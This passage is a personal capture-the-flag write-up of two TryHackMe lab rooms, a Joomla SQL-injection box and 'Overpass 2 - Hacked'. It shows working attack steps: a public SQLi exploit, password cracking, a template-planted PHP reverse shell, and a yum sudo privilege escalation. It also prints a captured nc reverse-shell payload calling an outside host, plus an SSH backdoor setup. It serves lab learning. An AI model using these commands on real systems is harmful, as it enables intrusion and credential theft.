80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   syn-ack ttl 64 MariaDB (unauthorized)
| http-vuln-cve2017-8917: 
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute aribitrary SQL commands via unspecified vectors.

gobuster
/administrator uses joomla
```

### Gaining Access 

get login form  http request from burp proxy for sqlmap
```
POST /index.php HTTP/1.1
Host: 10.10.205.160
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
Origin: http://10.10.205.160
Connection: close
Referer: http://10.10.205.160/
Cookie: eaa83fe8b963ab08ce9ab7d4a798de05=hjbrktbgj9mkad7r44pt1gjf72
Upgrade-Insecure-Requests: 1

username=username&password=password&Submit=&option=com_users&task=user.login&return=aHR0cDovLzEwLjEwLjIwNS4xNjAv&d0be4f1ffe6dfd6e7ab2afaa011c80b5=1
```
sqlmap -r request.txt --dbms=mariadb --threads=1- --risk=3 --dump
> login form is not vulnerable in sqlinjection

now let's use searchsploit 
```
root@ip-10-10-129-213:~/repo# searchsploit joomla 3.7.0
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

---------------------------------------------------------------------------------- ---------------------------------
Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection                                        | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                     | php/webapps/43488.txt
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
root@ip-10-10-129-213:~/repo# searchsploit -m php/webapps/42033.txt
[i] Found (#2): /opt/searchsploit/files_exploits.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_exploits.csv" (package_array: exploitdb)

[i] Found (#2): /opt/searchsploit/files_shellcodes.csv
[i] To remove this message, please edit "/opt/searchsploit/.searchsploit_rc" for "files_shellcodes.csv" (package_array: exploitdb)

Exploit: Joomla! 3.7.0 - 'com_fields' SQL Injection
URL: https://www.exploit-db.com/exploits/42033
Path: /opt/searchsploit/exploits/php/webapps/42033.txt
File Type: ASCII text, with CRLF line terminators

Copied to: /root/repo/42033.txt
```
This exploit is pointing the right direction for the sqlmap. 

let's search google for other exploits
```
search google joomla 3.7.0 exploit 
https://github.com/stefanlucas/Exploit-Joomla 

git clone https://github.com/stefanlucas/Exploit-Joomla.git
root@ip-10-10-129-213:~/repo/tools/Exploit-Joomla# python joomblah.py http://$rhost
[-] Fetching CSRF token
[-] Testing SQLi
-  Found table: fb9j5_users
-  Extracting users from fb9j5_users
[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
-  Extracting sessions from fb9j5_session
'`"'`'`'`'`'`
```
exploit from github worked!

now let's crack the password using john, use your own device as it's a very long process.
```
╰─$ john --wordlist=/opt/wordlists/rockyou.txt --format=bcrypt hash.txt
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:02:24 0% 0g/s 49.77p/s 49.77c/s 49.77C/s soloparati..redline
0g 0:00:02:33 0% 0g/s 49.79p/s 49.79c/s 49.79C/s chouchou..cadence
0g 0:00:03:54 0% 0g/s 49.53p/s 49.53c/s 49.53C/s kinky..izabella
0g 0:00:07:13 0% 0g/s 49.18p/s 49.18c/s 49.18C/s m123456789..lover11
0g 0:00:11:13 0% 0g/s 49.39p/s 49.39c/s 49.39C/s jigga1..jesusgod
0g 0:00:12:27 0% 0g/s 49.45p/s 49.45c/s 49.45C/s bobdole..blowpop
0g 0:00:12:51 0% 0g/s 49.46p/s 49.46c/s 49.46C/s skynet..skate12
0g 0:00:12:59 0% 0g/s 49.47p/s 49.47c/s 49.47C/s caleb2..c123456789
0g 0:00:15:19 0% 0g/s 49.51p/s 49.51c/s 49.51C/s 090782..082303
0g 0:00:15:21 0% 0g/s 49.51p/s 49.51c/s 49.51C/s vetealamierda..vavavoom
spiderman123     (?)
1g 0:00:15:45 100% 0.001057g/s 49.52p/s 49.52c/s 49.52C/s stargatesg1..spiderman123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
> spiderman123 is the password and it took 15mins to crack in mac mini m1 chip

now let's try these creds `jonah:spiderman123`


Now let's get the shell.

in the top navigation, choose
- extensions > templates
- now look at the sidebar choose templates
- pick anyone, i chose beez3
- edit index.php
- paste pentest monkey php reverse shell: 
```
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
- change IP and port of to your machine listener.
- now I'll spin up `nc -lnvp 1234`
- now once everything is ready, save and press template preview



```
root@ip-10-10-19-208:~/repo# nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.124.247 51282 received!
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
23:51:02 up 30 min,  0 users,  load average: 0.00, 0.09, 0.34
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$
```


### Privilege Escalation 

now download LinEnum
```
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

```

[-] Contents of /etc/passwd:
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin


[-] Can we read/write sensitive files:
-rw-r--r--. 1 root root 1017 Dec 14  2019 /etc/passwd
-rw-r--r-- 1 root root 499 Dec 16  2019 /etc/group
-rw-r--r--. 1 root root 1819 Oct 30  2018 /etc/profile
---------- 1 root root 752 Dec 15  2019 /etc/shadow


[-] SUID files:
-rwsr-xr-x. 1 root root 73888 Aug  8  2019 /usr/bin/chage
-rwsr-xr-x. 1 root root 78408 Aug  8  2019 /usr/bin/gpasswd
-rws--x--x. 1 root root 23968 Aug  8  2019 /usr/bin/chfn
-rws--x--x. 1 root root 23880 Aug  8  2019 /usr/bin/chsh
-rwsr-xr-x. 1 root root 41936 Aug  8  2019 /usr/bin/newgrp
-rwsr-xr-x. 1 root root 32128 Aug  8  2019 /usr/bin/su
---s--x--x. 1 root root 147320 Aug  8  2019 /usr/bin/sudo
-rwsr-xr-x. 1 root root 44264 Aug  8  2019 /usr/bin/mount
-rwsr-xr-x. 1 root root 31984 Aug  8  2019 /usr/bin/umount
-rwsr-xr-x. 1 root root 57656 Aug  8  2019 /usr/bin/crontab
-rwsr-xr-x. 1 root root 23576 Aug  8  2019 /usr/bin/pkexec
-rwsr-xr-x. 1 root root 27856 Aug  8  2019 /usr/bin/passwd
-rwsr-xr-x. 1 root root 36280 Apr 10  2018 /usr/sbin/unix_chkpwd
-rwsr-xr-x. 1 root root 11216 Apr 10  2018 /usr/sbin/pam_timestamp_check
-rwsr-xr-x. 1 root root 11296 Aug  8  2019 /usr/sbin/usernetctl
-rwsr-xr-x. 1 root root 15432 Aug  8  2019 /usr/lib/polkit-1/polkit-agent-helper-1
-rwsr-x---. 1 root dbus 58024 Mar 14  2019 /usr/libexec/dbus-1/dbus-daemon-launch-helper


[-] SGID files:
-r-xr-sr-x. 1 root tty 15344 Jun  9  2014 /usr/bin/wall
-rwxr-sr-x. 1 root tty 19544 Aug  8  2019 /usr/bin/write
---x--s--x. 1 root nobody 382216 Aug  8  2019 /usr/bin/ssh-agent
-rwxr-sr-x. 1 root root 11224 Aug  8  2019 /usr/sbin/netreport
-rwxr-sr-x. 1 root postdrop 218632 Oct 30  2018 /usr/sbin/postdrop
-rwxr-sr-x. 1 root postdrop 260112 Oct 30  2018 /usr/sbin/postqueue
-rwx--s--x. 1 root utmp 11192 Jun  9  2014 /usr/libexec/utempter/utempter
---x--s--x. 1 root ssh_keys 465760 Aug  8  2019 /usr/libexec/openssh/ssh-keysign


[+] Files with POSIX capabilities set:
/usr/bin/newgidmap = cap_setgid+ep
/usr/bin/newuidmap = cap_setuid+ep
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/suexec = cap_setgid,cap_setuid+ep


[-] NFS config details:
-rw-r--r--. 1 root root 0 Jun  7  2013 /etc/exports


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered


-----

sh-4.2$ pwd
/var/www/html
pwd
sh-4.2$ ls -altr
ls -altr
total 64
-rwxr-xr-x.  1 apache apache  1690 Apr 25  2017 web.config.txt
-rwxr-xr-x.  1 apache apache   836 Apr 25  2017 robots.txt
drwxr-xr-x. 16 apache apache   250 Apr 25  2017 plugins
drwxr-xr-x. 27 apache apache  4096 Apr 25  2017 modules
drwxr-xr-x. 26 apache apache  4096 Apr 25  2017 media
drwxr-xr-x. 11 apache apache   255 Apr 25  2017 libraries
drwxr-xr-x.  5 apache apache    70 Apr 25  2017 layouts
drwxr-xr-x.  4 apache apache    54 Apr 25  2017 language
-rwxr-xr-x.  1 apache apache  1420 Apr 25  2017 index.php
drwxr-xr-x.  2 apache apache    64 Apr 25  2017 includes
-rwxr-xr-x.  1 apache apache  3005 Apr 25  2017 htaccess.txt
drwxr-xr-x. 19 apache apache  4096 Apr 25  2017 components
drwxr-xr-x.  2 apache apache   119 Apr 25  2017 cli
drwxr-xr-x.  2 apache apache    24 Apr 25  2017 cache
drwxr-xr-x.  2 apache apache    44 Apr 25  2017 bin
drwxr-xr-x. 11 apache apache   159 Apr 25  2017 administrator
-rwxr-xr-x.  1 apache apache  4494 Apr 25  2017 README.txt
-rwxr-xr-x.  1 apache apache 18092 Apr 25  2017 LICENSE.txt
drwxr-xr-x.  4 root   root      33 Dec 14  2019 ..
-rw-r--r--   1 apache apache  1982 Dec 14  2019 configuration.php
drwxr-xr-x.  2 apache apache    24 Dec 15  2019 tmp
drwxr-xr-x.  5 apache apache   164 Dec 15  2019 images
drwxr-xr-x.  5 apache apache    68 Dec 15  2019 templates
drwxr-xr-x. 17 apache apache  4096 May 18 00:13 .


bash-4.2$ cat configuration.php
<?php 
....
        public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
....

nv5uz9r3ZEDzVjNu 


tested 
ssh root@$rhost
nv5uz9r3ZEDzVjNu 
failed


tested 
ssh jjameson@$rhost
nv5uz9r3ZEDzVjNu 

[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
```

as jjameson user
```

[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
!visiblepw, always_set_home, match_group_by_gid,
always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY
HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2
QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER
LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS
_XKB_CHARSET XAUTHORITY",
secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
(ALL) NOPASSWD: /usr/bin/yum

# check yum in the gtfobins
# https://gtfobins.github.io/gtfobins/yum/#sudo

TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y 


sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)


sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cd
sh-4.2# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
sh-4.2#
```

## Overpass 2 - Hacked
> https://tryhackme.com/room/overpass2hacked

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?


### forensic using wireshark

Follow TCP Stream of uploading rev shell
```http
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159/development/
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>

-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="submit"

Upload File
-----------------------------1809049028579987031515260006--
HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:01 GMT
Server: Apache/2.4.29 (Ubuntu)
Content-Length: 39
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

The file payload.php has been uploaded.GET /development/uploads/ HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:34:05 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 472
Keep-Alive: timeout=5, max=99
Connection: Keep-Alive
Content-Type: text/html;charset=UTF-8

............_o.0....)..0m..I....'F..D!*T.4...
....1l...!LM'X.......s.K.$...k:....	...&.!..._.C..E...{!.J.J.GSD.Ha.%=.R........t...	z	...(u....MUj.k.[...C..4.5r.k.......B.4......+.#.+D.\..6y.....qV2......+m.........h.)aP.....a<...	.S.......c..NXma..\J.O....._....ID..YY..3.].n.\.u.\....0].E.k.`..f....t......F.....@4e.- .F.V...g[.Veuu.{...F.
.(@....a}.......]g.....y4^U8...k......=............D._...]..+&.s#...*.......F..!.(.y.sa.....D..\^{........X..]..........d>.E.......
```

**Follow TCP stream of TCP connection**
```bash
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@overpass-production:/var/www/html/development/uploads$ ls -lAh
ls -lAh
total 8.0K
-rw-r--r-- 1 www-data www-data 51 Jul 21 17:48 .overpass
-rw-r--r-- 1 www-data www-data 99 Jul 21 20:34 payload.php
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

james@overpass-production:/var/www/html/development/uploads$ cd ~
cd ~
james@overpass-production:~$ sudo -l]
sudo -l]
sudo: invalid option -- ']'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user]
            [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p
            prompt] [-T timeout] [-u user] file ...
james@overpass-production:~$ sudo -l
sudo -l
[sudo] password for james: whenevernoteartinstant

Matching Defaults entries for james on overpass-production:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on overpass-production:
    (ALL : ALL) ALL
james@overpass-production:~$ sudo cat /etc/shadow
sudo cat /etc/shadow
root:*:18295:0:99999:7:::
daemon:*:18295:0:99999:7:::
bin:*:18295:0:99999:7:::
sys:*:18295:0:99999:7:::
sync:*:18295:0:99999:7:::
games:*:18295:0:99999:7:::
man:*:18295:0:99999:7:::
lp:*:18295:0:99999:7:::
mail:*:18295:0:99999:7:::
news:*:18295:0:99999:7:::
uucp:*:18295:0:99999:7:::
proxy:*:18295:0:99999:7:::
www-data:*:18295:0:99999:7:::
backup:*:18295:0:99999:7:::
list:*:18295:0:99999:7:::
irc:*:18295:0:99999:7:::
gnats:*:18295:0:99999:7:::
nobody:*:18295:0:99999:7:::
systemd-network:*:18295:0:99999:7:::
systemd-resolve:*:18295:0:99999:7:::
syslog:*:18295:0:99999:7:::
messagebus:*:18295:0:99999:7:::
_apt:*:18295:0:99999:7:::
lxd:*:18295:0:99999:7:::
uuidd:*:18295:0:99999:7:::
dnsmasq:*:18295:0:99999:7:::
landscape:*:18295:0:99999:7:::
pollinate:*:18295:0:99999:7:::
sshd:*:18464:0:99999:7:::
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor

<git clone https://github.com/NinjaJc01/ssh-backdoor
Cloning into 'ssh-backdoor'...
remote: Enumerating objects: 18, done.        
remote: Counting objects:   5% (1/18)        
remote: Counting objects:  11% (2/18)        
remote: Counting objects:  16% (3/18)        
remote: Counting objects:  22% (4/18)        
remote: Counting objects:  27% (5/18)        
remote: Counting objects:  33% (6/18)        
remote: Counting objects:  38% (7/18)        
remote: Counting objects:  44% (8/18)        
remote: Counting objects:  50% (9/18)        
remote: Counting objects:  55% (10/18)        
remote: Counting objects:  61% (11/18)        
remote: Counting objects:  66% (12/18)        
remote: Counting objects:  72% (13/18)        
remote: Counting objects:  77% (14/18)        
remote: Counting objects:  83% (15/18)        
remote: Counting objects:  88% (16/18)        
remote: Counting objects:  94% (17/18)        
remote: Counting objects: 100% (18/18)        
remote: Counting objects: 100% (18/18), done.        
remote: Compressing objects:   6% (1/15)        
remote: Compressing objects:  13% (2/15)        
remote: Compressing objects:  20% (3/15)        
remote: Compressing objects:  26% (4/15)        
remote: Compressing objects:  33% (5/15)        
remote: Compressing objects:  40% (6/15)        
remote: Compressing objects:  46% (7/15)        
remote: Compressing objects:  53% (8/15)        
remote: Compressing objects:  60% (9/15)        
remote: Compressing objects:  66% (10/15)        
remote: Compressing objects:  73% (11/15)        
remote: Compressing objects:  80% (12/15)        
remote: Compressing objects:  86% (13/15)        
remote: Compressing objects:  93% (14/15)        
remote: Compressing objects: 100% (15/15)        
remote: Compressing objects: 100% (15/15), done.        
Unpacking objects:   5% (1/18)   
Unpacking objects:  11% (2/18)   
Unpacking objects:  16% (3/18)   
Unpacking objects:  22% (4/18)   
Unpacking objects:  27% (5/18)   
Unpacking objects:  33% (6/18)   
Unpacking objects:  38% (7/18)   
remote: Total 18 (delta 4), reused 7 (delta 1), pack-reused 0        
Unpacking objects:  44% (8/18)   
Unpacking objects:  50% (9/18)   
Unpacking objects:  55% (10/18)   
Unpacking objects:  61% (11/18)   
Unpacking objects:  66% (12/18)   
Unpacking objects:  72% (13/18)   
Unpacking objects:  77% (14/18)   
Unpacking objects:  83% (15/18)   
Unpacking objects:  88% (16/18)   
Unpacking objects:  94% (17/18)   
Unpacking objects: 100% (18/18)   
Unpacking objects: 100% (18/18), done.
james@overpass-production:~$ cd ssh-backdoor
cd ssh-backdoor
james@overpass-production:~/ssh-backdoor$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/james/.ssh/id_rsa): id_rsa
id_rsa
Enter passphrase (empty for no passphrase): 

Enter same passphrase again: 

Your identification has been saved in id_rsa.
Your public key has been saved in id_rsa.pub.
The key fingerprint is:
SHA256:z0OyQNW5sa3rr6mR7yDMo1avzRRPcapaYwOxjttuZ58 james@overpass-production
The key's randomart image is:
+---[RSA 2048]----+
|        .. .     |
|       .  +      |
|      o   .=.    |
|     . o  o+.    |
|      + S +.     |
|     =.o %.      |
|    ..*.% =.     |
|    .+.X+*.+     |
|   .oo=++=Eo.    |
+----[SHA256]-----+
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
```

important stuff
```

Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
# this is how the attacker gained rev shell

## This is on the shell sessions
www-data@overpass-production:/var/www/html/development/uploads$ cat .overpass
cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQH96?6G6C?@E62CE:?DE2?EQN.www-data@overpass-production:/var/www/html/development/uploads$ su james
su james
Password: whenevernoteartinstant

## hashes to crack
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::

## Git back door
james@overpass-production:~$ git clone https://github.com/NinjaJc01/ssh-backdoor
```

let's crack them hashes
```
john shadow.txt --wordlist=./fasttrack.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "sha512crypt-opencl"
Use the "--format=sha512crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
```


### recon

```
$ nmap -sVC --min-rate 8888 -T4 -vv -oN nmap-10.10.149.70.txt 10.10.149.70
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCytc0lfgdX4r5ZxA8cr9Qi/66ppcB+fyEtT75IUtKC32Y/rpvBfFGRg9YxHVhKQKBDh1KlgXL3hJTJH1aqjEPtwXORQx+QmK5yFFQa524mKj3WzFZswUcDTk4s4F+m761x+QZMcb//UJhWuqiZ2QV+GW1UJsawrFhK3nogzIQ/eomxxR6TodNx2z2CzVahLULWcQjAMOKPAlqF5vsaoWk39Y4u9JDqA2JdEI2//kIb4RjuMbZDOtUDCgPypTCMgLKzIzAZQ54nWsHoUHoGUdPlon1mkVKgno/9cjZVwqveqQpQpO3DrQpjdB6xiCzBz34H9iUMvCEgJab64WkIGLGH
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGidEthZX/MDeUCmzLRQlezisPE1OceyHa6QBfwGnWirEYCdHM68kMGFlNJODkA7dunY+TUARD5WcjXMAN1iw7A=
|   256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (EdDSA)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPQ1lZqbCdY81xFaGZ1fwaVxJExe5+meLXraNAjwWTAm
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey: 
|   2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
